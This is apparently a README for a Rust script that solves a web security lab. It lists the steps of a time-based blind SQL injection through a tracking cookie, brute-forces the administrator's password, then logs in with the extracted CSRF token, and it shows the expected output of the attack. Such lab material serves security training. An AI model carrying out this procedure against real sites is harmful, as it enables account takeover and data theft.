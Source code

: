 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on time delays
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 13 
            .......
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. 
❯❯ Checking if char at position 7 =  q [ Correct password: 16vexiq ]
❯❯ Checking if char at position 15 =  8 [ Correct password: 16vexiq6xv0go08 ]
            .......
❯❯ Checking if char at position 20 =  q [ Correct password: 16vexiq6xv0go08or4vq ]
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
